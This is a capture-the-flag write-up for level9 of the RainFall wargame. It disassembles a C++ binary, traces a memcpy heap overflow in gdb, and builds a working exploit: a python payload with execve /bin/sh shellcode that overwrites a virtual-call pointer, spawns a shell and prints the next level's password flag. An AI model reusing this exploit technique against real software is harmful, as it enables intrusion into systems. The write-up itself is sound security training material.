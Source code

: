 Objdump:

```nasm
080485f4 <main>:
 80485f4:	55                   	push   %ebp
 80485f5:	89 e5                	mov    %esp,%ebp
 80485f7:	53                   	push   %ebx
 80485f8:	83 e4 f0             	and    $0xfffffff0,%esp
 80485fb:	83 ec 20             	sub    $0x20,%esp
 80485fe:	83 7d 08 01          	cmpl   $0x1,0x8(%ebp)
 8048602:	7f 0c                	jg     8048610 <main+0x1c>
 8048604:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 804860b:	e8 e0 fe ff ff       	call   80484f0 <_exit@plt>
 8048610:	c7 04 24 6c 00 00 00 	movl   $0x6c,(%esp)
 8048617:	e8 14 ff ff ff       	call   8048530 <_Znwj@plt>
 804861c:	89 c3                	mov    %eax,%ebx
 804861e:	c7 44 24 04 05 00 00 	movl   $0x5,0x4(%esp)
 8048625:	00 
 8048626:	89 1c 24             	mov    %ebx,(%esp)
 8048629:	e8 c8 00 00 00       	call   80486f6 <_ZN1NC1Ei>
 804862e:	89 5c 24 1c          	mov    %ebx,0x1c(%esp)
 8048632:	c7 04 24 6c 00 00 00 	movl   $0x6c,(%esp)
 8048639:	e8 f2 fe ff ff       	call   8048530 <_Znwj@plt>
 804863e:	89 c3                	mov    %eax,%ebx
 8048640:	c7 44 24 04 06 00 00 	movl   $0x6,0x4(%esp)
 8048647:	00 
 8048648:	89 1c 24             	mov    %ebx,(%esp)
 804864b:	e8 a6 00 00 00       	call   80486f6 <_ZN1NC1Ei>
 8048650:	89 5c 24 18          	mov    %ebx,0x18(%esp)
 8048654:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 8048658:	89 44 24 14          	mov    %eax,0x14(%esp)
 804865c:	8b 44 24 18          	mov    0x18(%esp),%eax
 8048660:	89 44 24 10          	mov    %eax,0x10(%esp)
 8048664:	8b 45 0c             	mov    0xc(%ebp),%eax
 8048667:	83 c0 04             	add    $0x4,%eax
 804866a:	8b 00                	mov    (%eax),%eax
 804866c:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048670:	8b 44 24 14          	mov    0x14(%esp),%eax
 8048674:	89 04 24             	mov    %eax,(%esp)
 8048677:	e8 92 00 00 00       	call   804870e <_ZN1N13setAnnotationEPc>
 804867c:	8b 44 24 10          	mov    0x10(%esp),%eax
 8048680:	8b 00                	mov    (%eax),%eax
 8048682:	8b 10                	mov    (%eax),%edx
 8048684:	8b 44 24 14          	mov    0x14(%esp),%eax
 8048688:	89 44 24 04          	mov    %eax,0x4(%esp)
 804868c:	8b 44 24 10          	mov    0x10(%esp),%eax
 8048690:	89 04 24             	mov    %eax,(%esp)
 8048693:	ff d2                	call   *%edx
 8048695:	8b 5d fc             	mov    -0x4(%ebp),%ebx
 8048698:	c9                   	leave  
 8048699:	c3                   	ret

0804870e <_ZN1N13setAnnotationEPc>:
 804870e:	55                   	push   %ebp
 804870f:	89 e5                	mov    %esp,%ebp
 8048711:	83 ec 18             	sub    $0x18,%esp ; réserve 24 sur la pile
 8048714:	8b 45 0c             	mov    0xc(%ebp),%eax ; charge argv dans eax
 8048717:	89 04 24             	mov    %eax,(%esp) ; met argv à l'adresse dans esp
 804871a:	e8 01 fe ff ff       	call   8048520 <strlen@plt>
 804871f:	8b 55 08             	mov    0x8(%ebp),%edx ; met l'instance this dans edx
 8048722:	83 c2 04             	add    $0x4,%edx ; +4 à edx pour pointer vers la copie
 8048725:	89 44 24 08          	mov    %eax,0x8(%esp) ; place le resultat de strlen dans esp+8 (arg3)
 8048729:	8b 45 0c             	mov    0xc(%ebp),%eax ; remet argv dans eax
 804872c:	89 44 24 04          	mov    %eax,0x4(%esp) ; met argv dans esp+4 (arg2)
 8048730:	89 14 24             	mov    %edx,(%esp) ; place dest de la copie dans esp (sommet de la stack)
 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt> ; call memcpy
 8048738:	c9                   	leave  
 8048739:	c3                   	ret
```

After allocation, the address of instance N is stored in the ebx register:

```nasm
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)

Breakpoint 7, 0x0804862e in main ()
(gdb) i r ebx
ebx            0x804a008	134520840
```

As the code indicates, the instance has a space of 108, after which the program segfaults when exceeding this number of characters.

The copy will be at `0x804a00c`, which corresponds to `0x804a008 + 4`. This can be confirmed during normal program usage:

```nasm
Breakpoint 3, 0x08048730 in N::setAnnotation(char*) ()
(gdb) i r edx
edx            0x804a00c	134520844
```

When exceeding the offset of 4 characters, the program segfaults here:

```nasm
=> 0x08048682 <+142>:	mov    (%eax),%edx
```

The reason is that eax contains an invalid address, "ABCD":

```nasm
Breakpoint 4 at 0x8048682
(gdb) i r
eax            0x44434241	1145258561
ecx            0x44434241	1145258561
edx            0x804a1cc	134521292
ebx            0x804a078	134520952
esp            0xbffff550	0xbffff550
ebp            0xbffff578	0xbffff578
```

If you provide it with a dummy but valid address, the content at that address will be transferred to edx, which will then be called. For example, if you set it to 0x08048310 (totally random)

```nasm
$(python -c 'print "A" * 108 + "\x10\x83\x04\x08"')
```

The content at the address present in eax will be loaded into edx.

```nasm
=> 0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
```

```nasm
(gdb) i r edx
edx            0x666e695f	1718511967 ; <- value loaded by 0x8048310 adress
```

And inevitably, it will segfault here because `0x666e695f` was the value in `0x8048310` and not a valid adress:

```nasm
Program received signal SIGSEGV, Segmentation fault.
0x666e695f in ?? ()
```

So the idea here is to place a valid address in which we have control over the buffer. We can use the copy of instance N created by memcpy, which is located at `0x804a00c`. In theory, eax will load this address into edx, which will then be called by `call *%edx` instruction.

Since this copy contains our argument, we can inject a shellcode at the beginning of the buffer, fill it with NOP instructions until it reaches a size of 108, and specify the address of the instance from 108 to 112.

This results in: shellcode + NOP + address =

```nasm
$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\x90" * 87 + "\x0c\xa0\x04\x08"') 
```

I used this 21-byte shellcode: https://shell-storm.org/shellcode/files/shellcode-752.html 

Okay, let's see how it goes:

```nasm
=> 0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret    
End of assembler dump.

...

(gdb) i r
eax            0x804a078	134520952
ecx            0x804a00c	134520844
edx            0xe1f7c931	-503854799
ebx            0x804a078	134520952

...

(gdb) s
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0xe1f7c931 in ?? ()
```

Edx seems to contain the shellcode properly (we see his first bytes), but we still segfault because, obviously, the first 4 bytes of this shellcode are not an address 🙂

It's ugly, but as a workaround, let's use the first 4 bytes of the buffer to designate an address, which would simply be the beginning of the buffer + 4 to reach the shellcode, so `0x0804a010`!

```nasm
$(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\x90" * 83 + "\x0c\xa0\x04\x08"')
```

It works!

And here is the flag :

```nasm
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\x90" * 83 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
